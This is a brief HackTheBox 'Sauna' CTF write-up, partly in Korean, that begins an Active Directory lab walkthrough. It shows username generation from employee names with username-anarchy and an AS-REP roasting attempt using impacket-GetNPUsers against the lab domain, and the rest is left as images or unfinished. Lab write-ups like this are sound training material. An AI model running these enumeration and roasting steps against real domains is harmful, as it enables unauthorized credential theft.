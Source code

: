 ```yaml
---
layout: post
title: HackTheBox Sauna
subtitle: Acitive Directory 101 Sauna Exam WriteUp
author: g3rm
categories: CTF
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-03-Sauna/2bdc0adf35cd7ad873b24031aca76c17_MD5.jpeg)

## Target - 10.129.246.172
### Info Gathering
#### open port   
![](/assets/images/posts/2025-03-03-Sauna/43e51fa648198ff08b7fb527b4792e9e_MD5.jpeg)

#### kerberos roasting
1. http에서 직원들 이름 얻어서 Window에서 계정으로 사용할 만한 username 뽑기
![](/assets/images/posts/2025-03-03-Sauna/daf33dc2142cef7bfb6f4a86808126de_MD5.jpeg)
``` bash
./username-anarchy-0.6/username-anarchy --input-file users > username
fergus
fergussmith
fergus.smith
fergussm
fergsmit
ferguss
f.smith
fsmith
sfergus
s.fergus
smithf
smith
smith.f
smith.fergus
fs
~~~
```   
2. 얻은 username으로 roasting 시도
```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile username -no-pass
```


## References